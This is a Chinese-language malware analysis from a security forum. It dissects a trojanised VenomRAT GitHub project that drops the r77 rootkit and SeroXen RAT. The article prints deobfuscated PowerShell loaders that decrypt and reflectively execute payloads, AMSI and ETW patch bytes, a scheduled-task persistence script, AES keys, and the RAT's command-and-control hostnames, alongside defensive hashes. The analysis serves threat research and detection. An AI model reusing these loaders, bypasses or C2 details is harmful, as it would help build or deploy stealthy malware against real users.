# 携带恶意 rootkit 的 github 项目通过 SeroXen RAT 木马攻击 github 项目使用人员 - 先知社区

携带恶意 rootkit 的 github 项目通过 SeroXen RAT 木马攻击 github 项目使用人员

- - -

## 概述

在笔者上一篇《NET 环境下的多款同源 RAT 对比》文章中，笔者尝试对多款 NET 木马进行了同源对比分析，其中在对 VenomRAT 项目进行研究的过程中，笔者发现此项目中貌似携带了可疑代码程序，尝试对可疑代码程序进行简单的分析，笔者确认了此样本的恶意行为，但由于此样本的攻击过程较复杂，因此，笔者当时就并未对其进行详细的研究分析。

一晃过了还是快一周了，于是，最近决定把它拿出来详细的剖析剖析。

携带恶意 rootkit 的 github 项目地址：[https://github.com/VenomRATHVNC/VenomRAT-HVNC-5.6](https://github.com/VenomRATHVNC/VenomRAT-HVNC-5.6)

项目截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174155-ef1c9f3a-dc66-1.png)

## 如何发现？

在最开始的时候，其实笔者是没有发现此项目中携带了恶意 rootkit 的，一是因为笔者本身习惯性的在虚拟机中使用研究此类项目，因此就没有担心中病毒的情况，二是因为笔者发现此项目的运行还是挺正常的，运行控制端程序有正常的 GUI 界面弹出，只是弹出的 GUI 界面并非 RAT 控制端界面，而是 RAT 控制端的登录界面。因此，笔者就一直没有对其恶意性进行怀疑，只是一直在琢磨怎么能够正常使用。

在研究琢磨怎么能够正常使用的过程中，笔者尝试使用了多款安全分析工具对 VenomRAT 项目控制端进行了研究，经过一系列努力，最终笔者通过调试可直接绕过登录，成功登录后即可正常显示 RAT 控制端。

由于笔者在研究过程中运行了多款安全分析工具，因此，在正常显示 RAT 控制端后，笔者就下意识的准备看看它的进程结构，结果，**不看不知道，一看吓一跳，笔者发现 VenomRAT 控制端进程下面多了很多的其他进程。**

相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174207-f65fb44e-dc66-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174219-fd62cbaa-dc66-1.png)

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174231-04af6cec-dc67-1.png)

## VenomRAT 程序中被植入恶意代码

由于笔者发现在 VenomRAT 控制端进程下，运行了很多的可疑进程程序，因此，笔者准备对其行为进行一谈究竟。

通过对 VenomRAT 项目源码进行分析，笔者发现 VenomRAT 项目会在多个代码片段处执行“Stub\\ClientFix.bat”文件，若项目中无“Stub\\ClientFix.bat”文件，还会从`hxxps://underground-cheat.com/venomFix/ClientFix.bat`地址处下载“Stub\\ClientFix.bat”文件。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174242-0b78e5da-dc67-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174256-13e9ca22-dc67-1.png)

尝试对外联域名进行访问，笔者发现此域名已经失效，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174310-1bc7884c-dc67-1.png)

尝试基于 VT 对其进行关联分析，笔者发现此域名下关联了大量的恶意程序，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174324-243c3ad6-dc67-1.png)

## 混淆的 bat 脚本

```plain
文件名称：VenomRAT-V5.6-HVNC\Stub\ClientFix.bat
文件大小：11052586 字节
修改时间：2022 年 12 月 23 日 16:27:46
MD5     ：42EF9DB764C0F7361BA2157D9553C0E6
SHA1    ：6AF1E60F9CD75627DA67C3103B8E83D492F6D9D4
CRC32   ：4BAEBE66
```

尝试对“Stub\\ClientFix.bat”文件进行分析，笔者发现此批处理文件内容被混淆处理了，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174337-2c2829d0-dc67-1.png)

为了能够正常的查看其运行后的代码，可尝试在其有效代码前添加`echo`函数，即可正常查看其代码内容，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174351-349a71a4-dc67-1.png)

提取正常代码内容如下：

```plain
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "ClientFix.bat.exe"

cd "C:\Users\admin\Desktop\VenomRAT-V5.6-HVNC\Stub\"

"ClientFix.bat.exe" - noprofile - windowstyle hidden - ep bypass - command $WFMJi = [System.IO.File] : :('txeTllAdaeR' [ - 1.. - 11] - join '')('C:\Users\admin\Desktop\VenomRAT-V5.6-HVNC\Stub\ClientFix.bat').Split([Environment] : :NewLine);
foreach($CfaZq in $WFMJi) {
    if ($CfaZq.StartsWith(':: ')) {
        $vvycE = $CfaZq.Substring(3);
        break;
    };
};
$ebOVF = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')($vvycE);
$TvyrY = New - Object System.Security.Cryptography.AesManaged;
$TvyrY.Mode = [System.Security.Cryptography.CipherMode] : :CBC;
$TvyrY.Padding = [System.Security.Cryptography.PaddingMode] : :PKCS7;
$TvyrY.Key = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('kAdRfGjG5nQ73DzFMdGHAl3pY8gtBNZSc1HkWv4kVjQ=');
$TvyrY.IV = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('XfTHUmFJqIl6NYYRvVi6Uw==');
$iolsF = $TvyrY.CreateDecryptor();
$ebOVF = $iolsF.TransformFinalBlock($ebOVF, 0, $ebOVF.Length);
$iolsF.Dispose();
$TvyrY.Dispose();
$xwvRO = New - Object System.IO.MemoryStream(, $ebOVF);
$KUalT = New - Object System.IO.MemoryStream;
$sthnm = New - Object System.IO.Compression.GZipStream($xwvRO, [IO.Compression.CompressionMode] : :Decompress);
$sthnm.CopyTo($KUalT);
$sthnm.Dispose();
$xwvRO.Dispose();
$KUalT.Dispose();
$ebOVF = $KUalT.ToArray();
$KGzdp = [System.Reflection.Assembly] : :('daoL' [ - 1.. - 4] - join '')($ebOVF);
$OfYbS = $KGzdp.EntryPoint;
$OfYbS.Invoke($null, (, [string[]]('')))
```

进一步分析，笔者发现此代码的功能为：

-   从“Stub\\ClientFix.bat”文件中提取“::”行内容；
-   使用 Base64 对其内容进行解码；
-   使用 AES 对其解码后内容进行解密；
-   使用 gzip 解压算法对其解密内容进行解压，解压获取一个 PE 文件；
-   执行此 PE 文件；

提取 AES 密钥信息如下：

```plain
#AES Key
9007517c68c6e6743bdc3cc531d187025de963c82d04d6527351e45afe245634

#AES IV
5df4c7526149a8897a358611bd58ba53
```

“Stub\\ClientFix.bat”文件中“::”行内容如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174410-3f7e1d82-dc67-1.png)

解密流程如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174428-4a5121c8-dc67-1.png)

## 混淆的C#程序\_tmpB23C

```plain
文件名称：tmpB23C
文件大小：14961152 字节
文件版本：0.0.0.0
MD5     ：C8D4DCD0119E83E2946C9154A36E184B
SHA1    ：704F2104D1966FF7C59AD9ADF3C2FA74A0862EA5
CRC32   ：25B546BC
```

尝试对解密提取的 tmpB23C 文件进行分析，发现此样本被混淆处理了，因此，使用 de4dot 程序去除混淆，然后使用 dnspy 反编译查看代码，通过分析，发现反编译代码中调用了大量的数学运算，用于解密字符串等信息。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174444-53ea1da2-dc67-1.png)

### bypassAmsi

通过分析，发现此样本会调用 VirtualProtect 及 Marshal.Copy 函数将 AmisiScanBuffer 函数 ret 掉，实现绕过 AMSI 的效果：

-   AMSI 技术原理：amsi 是微软提供的一个接口，旨在允许应用程序和服务与已安装的杀毒或反恶意软件解决方案进行互动，从而提供更好的保护。其中最关键的函数当属 AmisiScanBuffer，AmsiScanBuffer 函数可以检测内存中的恶意内容，这对于检测那些可能在运行时生成或修改其代码的恶意软件特别有用，例如某些脚本或文件 less 的恶意软件。
-   绕过 AMSI 的技术原理：将 amsi.dll 里的关键函数`AmsiScanBuffer`给 ret 掉，填充的硬编码指令为`0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3`，对应汇编指令为`mov eax, 0x80070057，ret`
-   相关参考文档：[https://github.com/rasta-mouse/AmsiScanBufferBypass、https://www.henry-blog.life/henry-blog/readme/executeassembly-yuan-li](https://github.com/rasta-mouse/AmsiScanBufferBypass%E3%80%81https://www.henry-blog.life/henry-blog/readme/executeassembly-yuan-li)

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174503-5f76ecae-dc67-1.png)

### 绕过 ETW

通过分析，发现此样本会调用 VirtualProtect 及 Marshal.Copy 函数将 ETW 的关键函数`EtwEventWrite`给 ret 掉，实现绕过 ETW 的效果：

-   ETW 技术原理：ETW（Event Tracing for Windows）是 Windows 操作系统提供的一种事件跟踪技术，用于在系统和应用程序中收集、记录和分析事件信息。
-   绕过 ETW 的技术原理：将 ETW 的关键函数`EtwEventWrite`给 ret 掉，填充的硬编码指令为`0xC3`，对应汇编指令为`ret`

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174521-6a5d528e-dc67-1.png)

### 反射加载 CSStub2

进一步分析，发现样本还将从资源中解密释放 payload.exe 文件，然后调用函数反射加载 payload.exe。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174538-74113a7a-dc67-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174553-7d4d589e-dc67-1.png)

### 自删除

通过分析，发现样本还将调用 cmd 命令删除自身。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174610-87090b8a-dc67-1.png)

## 携带嵌入资源的 CSStub2 程序

```plain
文件名称：CSStub2
文件大小：2722816 字节
文件版本：1.0.0.0
MD5     ：9FADC32EF1DC5AA15AACE0EE558E8A0B
SHA1    ：346CA7E2C1B1A2FB19802046589C34480437813D
CRC32   ：B2B1F55C
```

通过对反射加载的 CSStub2 程序进行分析，笔者发现此样本的资源中携带了大量的文件，进一步分析，发现其通过调用 Costura 插件（项目地址：[https://github.com/Fody/Costura）](https://github.com/Fody/Costura%EF%BC%89) 将相关可执行文件嵌入到了此样本中。

相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174641-998af78c-dc67-1.png)

### 解密资源

通过分析，发现样本在运行过程中，将调用 AES ECB 算法对 CSStub2.$sxr-nircmd.exe 资源、CSStub2.InstallStager.exe 资源、CSStub2.UninstallStager.exe 资源进行解密：

-   将`QdwAPQVFDRUxTXQBtRz3PFNHv9aaNR9T0WoD7GSmaxD5ERlZDV3SN6RUbNVO93DvDsdE7qgp5iAKxAf1C8PKc4YMRuO0YtBIddFr`字符串做 MD5 运算，得到的 HASH 值将用于 AES KEY；
-   使用 HASH 值构建 AES KEY；
-   调用 AES ECB 算法对加密资源文件进行解密；

提取 AES 密钥信息如下：

```plain
aad5862a79751b51bd07fe77ab9530aad5862a79751b51bd07fe77ab95300800
```

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174659-a478f14e-dc67-1.png)

解密流程如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174719-b06d298e-dc67-1.png)

对相关资源文件进行简单梳理：

| 文件名 | 备注  |
| --- | --- |
| CSStub2.InstallStager.exe | r77-rootkit 的开源项目 |
| CSStub2.UninstallStager.exe | r77-rootkit 的开源项目 |
| CSStub2.$sxr-nircmd.exe | NirCmd 命令行程序 |

### CSStub2.InstallStager.exe

```plain
文件名称：CSStub2.InstallStager.exe
文件大小：161792 字节
文件版本：0.0.0.0
MD5     ：6CAFD06817FC9E3E6AD6D69029D43BC5
SHA1    ：7AA657A5257961386CBCB1B9C67CBE7A7314C033
CRC32   ：B69B0BA4
```

尝试对解密后的CSStub2.InstallStager.exe资源文件进行分析，笔者发现此样本依然是一个C#程序，样本功能为：

-   从资源中解密 InstallStager.Service64.exe 载荷内容
-   将载荷注入到 winlogon.exe 进程中，然后使用 Process Hollowing 技术通过 dllhost.exe 执行

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174736-ba6d3578-dc67-1.png)

相关进程执行截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174753-c4c62192-dc67-1.png)

### InstallStager.Service64.exe

```plain
文件名称：InstallStager.Service64.exe
文件大小：149504 字节
MD5     ：FA3A8A72D386638C1C1BD610A5D172D9
SHA1    ：F3D501C70EC67A89DE662A10B0482FAA4DD5061A
CRC32   ：CFD16E3B
```

进一步对 InstallStager.Service64.exe 文件进行分析，发现此样本后续功能较丰富：

-   将从资源中释放后续载荷文件
-   将对注册表进行操作
-   将使用命名管道进行进程间通信
-   将创建计划任务等

样本资源段截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307174954-0d07d2a2-dc68-1.png)

创建注册表截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175009-15cba58a-dc68-1.png)

创建计划任务截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175104-3680fa64-dc68-1.png)

使用命名管道进行进程间通信的代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175123-420e9878-dc68-1.png)

### r77-rootkit

为了能够更详细的对 CSStub2.InstallStager.exe 样本及 InstallStager.Service64.exe 样本进行分析，笔者在网络中查阅了大量的资料，最终笔者确定 CSStub2.InstallStager.exe 样本及 InstallStager.Service64.exe 样本均为 r77-rootkit 开源项目编译后的模块。

r77-rootkit 开源项目地址：[https://github.com/bytecode77/r77-rootkit](https://github.com/bytecode77/r77-rootkit)

r77-Rootkit 开源项目介绍：r77-Rootkit 是一个 Ring3 级别的 Rootkit，能够在用户态隐藏自己的各种行为。

项目截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175147-4ff5cd4e-dc68-1.png)

尝试将 r77-rootkit 开源项目与 CSStub2.InstallStager.exe 样本及 InstallStager.Service64.exe 样本进行同源对比，笔者发现 CSStub2.InstallStager.exe 样本及 InstallStager.Service64.exe 样本确实是由 r77-rootkit 开源项目编译生成。

CSStub2.InstallStager.exe 样本代码对比情况如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175206-5b3d46e6-dc68-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175223-65dec5d4-dc68-1.png)

InstallStager.Service64.exe 样本代码对比情况如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175242-70dd8e8e-dc68-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175259-7b4e57ae-dc68-1.png)

通过对 r77-rootkit 开源项目进行分析，提取 r77-rootkit 执行各阶段的流程图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175603-e88b76e4-dc68-1.png)

## 计划任务驻留

通过对 CSStub2.InstallStager.exe 样本及 InstallStager.Service64.exe 样本进行分析，我们发现其在运行过程中，会创建计划任务，计划任务内容如下：

```plain
C: \Windows\$sxr - powershell.exe - NoLogo - NoProfile - Noninteractive - WindowStyle hidden - ExecutionPolicy bypass - Command $IUziZ1 = New - Object System.Security.Cryptography.AesManaged;
$IUziZ1.Mode = [System.Security.Cryptography.CipherMode] : :CBC;
$IUziZ1.Padding = [System.Security.Cryptography.PaddingMode] : :PKCS7;
$IUziZ1.Key = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('czejaGDzXhtRk3rRQOwA7CFoM90g5FQgnJ85LaUZQd4=');
#7337a36860f35e1b51937ad140ec00ec216833dd20e454209c9f392da51941de
$IUziZ1.IV = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('MrEUmw2CRfIwDN4DnujVag==');
#32b1149b0d8245f2300cde039ee8d56av
$zJtjN = $IUziZ1. ('rotpyrceDetaerC' [ - 1.. - 15] - join '')();
$DEDSw = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('dNZQ79CdCcT3RZeJIBMeWA==');
$DEDSw = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($DEDSw, 0, $DEDSw.Length);
$DEDSw = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($DEDSw);
#SOFTWARE
$jMYEl = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('ffs1oB2cg9MQou+VEQ8aDXxHbAIu//njEEr4yqOAe8c=');
$jMYEl = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($jMYEl, 0, $jMYEl.Length);
$jMYEl = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($jMYEl);
#$sxr-YuUPClmUpmhGilfvUVHG
$XVbaw = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('GvpxgK9ah8YOSS3JRrNuog==');
$XVbaw = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($XVbaw, 0, $XVbaw.Length);
$XVbaw = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($XVbaw);
$BYhfv = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('6lRW0jGzlAA5nbkjHf5Tsi2VcY+e72Di8pyST+P3b+zKhEOatzOvsZwWc+tNvaenFYt371ubGqjG2iZNgW2Ruqyxtm0FlLj/6SFCvhVuHBoXGShbkjll0X0J0Yf8IrHI015qKEspAwvJ3BIkY31lE641I57ZA9mkxn3r2dmP9uXIIejGAbUYS/Egydi59SI4nLAn0KYi1PmCbY3T/4H6s6RDYRGM84TonfBl6Shh4V7e77iWS5OK+T93c6MxOusyAlznel1QyGuYsaEpfjJ3pZxnRDqxM+cJ6BV7z8XM6VlKLAriZV3af8+QPmGxYUFSetnhCdNepWVjla/rc+wznH76gqNjdrTdE4sXG2oefxeMo2RVY9GEE56HPY/MHqKXuj9QJ9R71SzOk/Jp6SI/aU6ftBcuLTHGK8ii/LzWWM4=');
$BYhfv = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($BYhfv, 0, $BYhfv.Length);
$BYhfv = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($BYhfv);
#[Char]+91+[Char]+83+[Char]+121+[Char]+115+[Char]+116+[Char]+101+[Char]+109+[Char]+46+[Char]+82+[Char]+101+[Char]+102+[Char]+108+[Char]+101+[Char]+99+[Char]+116+[Char]+105+[Char]+111+[Char]+110+[Char]+46+[Char]+65+[Char]+115+[Char]+115+[Char]+101+[Char]+109+[Char]+98+[Char]+108+[Char]+121+[Char]+93 | IEX
#System.Reflection.Assembly | IEX
$Rqbjy = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('zLOMq/59oqNcdFMRuju6ng==');
$Rqbjy = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($Rqbjy, 0, $Rqbjy.Length);
$Rqbjy = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($Rqbjy);
#ReadAllText
$KASyv = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('72lxeVY82PoJcJ3hbiQEIw==');
$KASyv = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($KASyv, 0, $KASyv.Length);
$KASyv = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($KASyv);
#GetValue
$mknYJ = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('zVB7M6DhuDz9HVN22epYIw==');
$mknYJ = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($mknYJ, 0, $mknYJ.Length);
$mknYJ = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($mknYJ);
#OpenSubkey
$CcpOW = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('HUIziUB7x4wdL9DXkS0rtA==');
$CcpOW = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($CcpOW, 0, $CcpOW.Length);
$CcpOW = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($CcpOW);
#LocalMachine
$IVrwI = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('sTbvcUvEJoAxsnBrBeUD8g==');
$IVrwI = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($IVrwI, 0, $IVrwI.Length);
$IVrwI = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($IVrwI);
#CopyTo
$DEDSw0 = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('Jlr5GUhwRFzfhvwaclrGQg==');
$DEDSw0 = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($DEDSw0, 0, $DEDSw0.Length);
$DEDSw0 = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($DEDSw0);
#Invoke
$DEDSw1 = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('VRv4nf1Tsuy8xOh1GOIbLw==');
$DEDSw1 = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($DEDSw1, 0, $DEDSw1.Length);
$DEDSw1 = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($DEDSw1);
#Decompress
$DEDSw2 = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('qoyKUlYeEofaQd2Nsn4c1Q==');
$DEDSw2 = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($DEDSw2, 0, $DEDSw2.Length);
$DEDSw2 = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($DEDSw2);
#Load
$DEDSw3 = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('x+L5SCITRwLaIySJMRKPcA==');
$DEDSw3 = $zJtjN. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($DEDSw3, 0, $DEDSw3.Length);
$DEDSw3 = [System.Text.Encoding] : :('8FTU' [ - 1.. - 4] - join ''). ('gnirtSteG' [ - 1.. - 9] - join '')($DEDSw3);
#$sxr-powershell
$zJtjN.Dispose();
$IUziZ1.Dispose();
if (@ (get - process - ea silentlycontinue $DEDSw3).count - gt 1) {
    exit
};
$ZnTbq = [Microsoft.Win32.Registry] : :$CcpOW.$mknYJ($DEDSw).$KASyv($jMYEl);
$hYcHq = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')($ZnTbq);
$IUziZ = New - Object System.Security.Cryptography.AesManaged;
$IUziZ.Mode = [System.Security.Cryptography.CipherMode] : :CBC;
$IUziZ.Padding = [System.Security.Cryptography.PaddingMode] : :PKCS7;
$IUziZ.Key = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('czejaGDzXhtRk3rRQOwA7CFoM90g5FQgnJ85LaUZQd4=');
#7337a36860f35e1b51937ad140ec00ec216833dd20e454209c9f392da51941de
$IUziZ.IV = [System.Convert] : :('gnirtS46esaBmorF' [ - 1.. - 16] - join '')('MrEUmw2CRfIwDN4DnujVag==');
#32b1149b0d8245f2300cde039ee8d56a
$VYFAv = $IUziZ. ('rotpyrceDetaerC' [ - 1.. - 15] - join '')();
$hYcHq = $VYFAv. ('kcolBlaniFmrofsnarT' [ - 1.. - 19] - join '')($hYcHq, 0, $hYcHq.Length);
$VYFAv.Dispose();
$IUziZ.Dispose();
$zInKm = New - Object System.IO.MemoryStream(, $hYcHq);
$vncyw = New - Object System.IO.MemoryStream;
$aIVco = New - Object System.IO.Compression.GZipStream($zInKm, [IO.Compression.CompressionMode] : :$DEDSw1);
$aIVco.$IVrwI($vncyw);
$aIVco.Dispose();
$zInKm.Dispose();
$vncyw.Dispose();
$hYcHq = $vncyw.ToArray();
$zxNyE = $BYhfv | IEX;
$OwixV = $zxNyE: :$DEDSw2($hYcHq);
$vhBKp = $OwixV.EntryPoint;
$vhBKp.$DEDSw0($null, (, [string[]]($XVbaw)))
```

通过对此计划任务内容进行分析，梳理如下：

-   使用 AES CBC 算法解密相关字符串信息：
    -   AES Key：7337a36860f35e1b51937ad140ec00ec216833dd20e454209c9f392da51941de
    -   AES IV：32b1149b0d8245f2300cde039ee8d56a
    -   解密后的字符串：SOFTWARE、$sxr-YuUPClmUpmhGilfvUVHG、\[Char\]+91+\[Char\]+83+\[Char\]+121+\[Char\]+115+\[Char\]+116+\[Char\]+101+\[Char\]+109+\[Char\]+46+\[Char\]+82+\[Char\]+101+\[Char\]+102+\[Char\]+108+\[Char\]+101+\[Char\]+99+\[Char\]+116+\[Char\]+105+\[Char\]+111+\[Char\]+110+\[Char\]+46+\[Char\]+65+\[Char\]+115+\[Char\]+115+\[Char\]+101+\[Char\]+109+\[Char\]+98+\[Char\]+108+\[Char\]+121+\[Char\]+93 | IEX、ReadAllText、GetValue、OpenSubkey、LocalMachine、CopyTo、Invoke、Decompress、Load、$sxr-powershell
-   通过解密后的字符串拼凑命令行，从`HKEY_LOCAL_MACHINE\SOFTWARE\$sxr-YuUPClmUpmhGilfvUVHG`注册表项中提取数据
-   使用 AES CBC 算法解密注册表项中提取的数据内容：
    -   AES Key 与 AES IV 的值与上相同；
    -   解密后的内容为 gzip 压缩内容
-   使用 gzip 解压缩，解压缩后内容为 PE 文件；
-   反射加载 PE 文件**（tmpA72F）**；

解密流程如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175628-f7f3f336-dc68-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175647-0304d8e4-dc69-1.png)

## 混淆的C#程序\_tmpA72F

```plain
文件名称：tmpA72F
文件大小：3703296 字节
文件版本：0.0.0.0
MD5     ：D2B10EB7458144144429A1D61B2D1403
SHA1    ：ACBB112E4F16E1B1F38F523555245554F91A0C3B
CRC32   ：1407515B
```

对此样本进行分析，发现此样本被混淆处理了，因此，使用 de4dot 程序去除混淆，然后使用 dnspy 工具即可正常查看其反编译代码；进一步分析，发现此样本与上述 tmpB23C 样本，除解密释放的 payload.exe 载荷不同外，其余整体功能相同，相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175708-0f93095a-dc69-1.png)

## SeroXen RAT 木马

```plain
文件名称：payload.exe
文件大小：6983680 字节
文件版本：1.4.0
MD5     ：7E6C667246744B083480A5C6FB9D3499
SHA1    ：46863B3B07FB390C7BC05CDEB64B310E9894FAF7
CRC32   ：5C79FD5C
```

对此样本进行分析，发现此样本也被混淆处理了，因此，继续使用 de4dot 功能与 dnspy 工具相结合，即可正常查看其反编译代码。

进一步对比样本进行分析，笔者发现此样本即为 SeroXen RAT 木马实体，由于 SeroXen RAT 是基于 Quasar RAT 项目的，因此其反编译代码与 Quasar RAT 的反编译代码极其相似。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175729-1bd2d7f4-dc69-1.png)

### 配置信息解密

由于 SeroXen RAT 的反编译代码与 Quasar RAT 的反编译代码极其相似，因此我们可以采用笔者前期《QuasarRAT 与 AsyncRAT 同源对比及分析》文章中提供的配置信息解密脚本对其配置信息进行解密。

SeroXen RAT 样本配置信息截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175747-26cd7d80-dc69-1.png)

解密后结果如下：**（解密的字符串中存在 seroxen 字符串）**

```plain
Version:1.4.0
Hosts:dofucks.com:12482;private115.duckdns.org:12482;
Install Subdirectory:
Install Name:.exe
Mutex：adf10731-c83d-4166-9137-39d0b1e48856
Startup Name:$sxr-seroxen
Client Tag:v15.4.1 | Venom
Log Directory Name:$sxr-Logs
Serversignature:lqUkxdzwxgbOlYuIPVObQJBs3QffK3qoqKQoJ/8r37WXI/zMaghHdnXsPremJ56CFRa07VGmdUuTexJBSvnAGq19XEnckMPf3xXK4GG2UFmRCilXzbU5EwTOn7RKEAo70/VU5o6Dpn+xmsORHX4gRLq9d6Rlsn0SbRsYE6OUa1AO+XE0ywTeCH8HvQ7DGRfedEzqwz0yXQ9cggCGyPW1vTeAqOYjyQVRt31VVfXelK5jMYgeAO8Ap+UCNS58mOgGA/IxJ05y3PU9dnGZ6fWgb71ZVMff49W0zmccGuaXrIRa4+XW2hld4SkFcNtRiYoLiYoZVqzwfu6f4luLa72n0Jv7n476ZJKWryKdsYI3PV/GmtfjTViQJWizq9aqUY1WpIYJUt5MYGxS0ORiwoVQy9MaXhzRKPxTUHlN6pc7CdPZTaXjQdYx4bDjHvya/IFguDC2N5J2ZTF+w3PmXKGEaOeJ3j+VSWa9qIoNZJSKE78lQ/X5CkVeQcEBOnTv93olvczTaEdTXVsCOUvVWBVibqS6eT/1VzygSgCnCB+CuAvFj8iRaqDRJVp29rZslpnDkhE25ZfOlqmgwGH2T1wQJ21iyVDgpdqyfFpyGShldZXfvJ8KVxe8P8ygLIjK5+vteIJVQjb4rX2arOceMO6r6rOpAgHQWOlMLJdj628TV60=
